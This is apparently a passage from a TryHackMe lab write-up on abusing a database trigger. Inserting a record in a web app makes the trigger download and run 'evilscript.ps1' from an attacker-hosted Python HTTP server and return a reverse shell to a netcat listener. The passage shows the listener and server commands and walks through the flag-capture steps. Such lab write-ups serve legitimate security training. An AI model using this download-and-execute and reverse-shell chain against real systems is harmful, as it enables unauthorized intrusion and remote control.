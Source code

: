 We will need to open two terminals to handle the connections involved in this exploit:

- The trigger will perform the first connection to download and execute`evilscript.ps1`. Our trigger is using port 8000 for that.
- The second connection will be a reverse shell on port 4454 back to our attacker machine.

| AttackBox<br><br>python3 -m http.server <br>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... <br> | AttackBox<br><br>nc -lvp 4454<br>Listening on 0.0.0.0 4454<br> |
| ------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |

With all that ready, let's navigate to`http://10.10.173.151/` and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use your web shell to execute`C:\flags\flag17.exe` to get your flag!

Once we did all steps, we need to add an employee to get our shell:

![Pasted image 20250516120626.png](../../../IMAGES/Pasted%20image%2020250516120626.png)

Let's add one and check our listener:

![Pasted image 20250516120648.png](../../../IMAGES/Pasted%20image%2020250516120648.png)
